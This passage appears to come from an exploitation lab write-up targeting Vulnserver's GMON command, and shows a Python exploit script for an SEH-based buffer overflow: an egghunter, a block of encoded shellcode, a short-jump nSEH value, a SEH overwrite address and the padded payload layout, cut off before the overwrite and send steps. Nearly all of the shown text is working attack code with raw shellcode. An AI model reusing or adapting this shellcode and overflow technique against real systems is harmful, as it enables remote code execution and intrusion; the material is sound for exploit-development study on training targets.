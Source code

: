 Here is our exploit script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat exploit.py       
import socket, sys

egg=b"PWNDPWND"

egghunter=b""
egghunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egghunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egghunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egghunter+=b"\xff\xe7"

buf= b""
buf+=b"\xb8\xbb\xf1\x65\xd4\xdd\xc1\xd9\x74\x24\xf4\x5e\x31"
buf+=b"\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x55\x0d\x87"
buf+=b"\x21\x55\x06\xca\xca\xa5\xd7\xab\x43\x40\xe6\xeb\x30"
buf+=b"\x01\x59\xdc\x33\x47\x56\x97\x16\x73\xed\xd5\xbe\x74"
buf+=b"\x46\x53\x99\xbb\x57\xc8\xd9\xda\xdb\x13\x0e\x3c\xe5"
buf+=b"\xdb\x43\x3d\x22\x01\xa9\x6f\xfb\x4d\x1c\x9f\x88\x18"
buf+=b"\x9d\x14\xc2\x8d\xa5\xc9\x93\xac\x84\x5c\xaf\xf6\x06"
buf+=b"\x5f\x7c\x83\x0e\x47\x61\xae\xd9\xfc\x51\x44\xd8\xd4"
buf+=b"\xab\xa5\x77\x19\x04\x54\x89\x5e\xa3\x87\xfc\x96\xd7"
buf+=b"\x3a\x07\x6d\xa5\xe0\x82\x75\x0d\x62\x34\x51\xaf\xa7"
buf+=b"\xa3\x12\xa3\x0c\xa7\x7c\xa0\x93\x64\xf7\xdc\x18\x8b"
buf+=b"\xd7\x54\x5a\xa8\xf3\x3d\x38\xd1\xa2\x9b\xef\xee\xb4"
buf+=b"\x43\x4f\x4b\xbf\x6e\x84\xe6\xe2\xe6\x69\xcb\x1c\xf7"
buf+=b"\xe5\x5c\x6f\xc5\xaa\xf6\xe7\x65\x22\xd1\xf0\x8a\x19"
buf+=b"\xa5\x6e\x75\xa2\xd6\xa7\xb2\xf6\x86\xdf\x13\x77\x4d"
buf+=b"\x1f\x9b\xa2\xc2\x4f\x33\x1d\xa3\x3f\xf3\xcd\x4b\x55"
buf+=b"\xfc\x32\x6b\x56\xd6\x5a\x06\xad\xb1\xa4\x7f\xd9\xc1"
buf+=b"\x4d\x82\x21\xe4\x19\x0b\xc7\x82\x31\x5a\x50\x3b\xab"
buf+=b"\xc7\x2a\xda\x34\xd2\x57\xdc\xbf\xd1\xa8\x93\x37\x9f"
buf+=b"\xba\x44\xb8\xea\xe0\xc3\xc7\xc0\x8c\x88\x5a\x8f\x4c"
buf+=b"\xc6\x46\x18\x1b\x8f\xb9\x51\xc9\x3d\xe3\xcb\xef\xbf"
buf+=b"\x75\x33\xab\x1b\x46\xba\x32\xe9\xf2\x98\x24\x37\xfa"
buf+=b"\xa4\x10\xe7\xad\x72\xce\x41\x04\x35\xb8\x1b\xfb\x9f"
buf+=b"\x2c\xdd\x37\x20\x2a\xe2\x1d\xd6\xd2\x53\xc8\xaf\xed"
buf+=b"\x5c\x9c\x27\x96\x80\x3c\xc7\x4d\x01\x4c\x82\xcf\x20"
buf+=b"\xc5\x4b\x9a\x70\x88\x6b\x71\xb6\xb5\xef\x73\x47\x42"
buf+=b"\xef\xf6\x42\x0e\xb7\xeb\x3e\x1f\x52\x0b\xec\x20\x77"

nseh=b""
nseh=b"\xeb\xb6"
nseh+=b"\x90\x90"

seh=b"\xb4\x10\x50\x62"

# to overwrite buffer and EBP
payload=b""
payload+=b"A"*1500
## egg
payload+=egg
## shellcode
payload+=buf
## NOP sled
payload+=b"\x90"*(3549-70-len(payload))
## egg hunter
payload+=egghunter
payload+=b"\x90"*(3549-len(payload))

# to overwrite nSEH
```
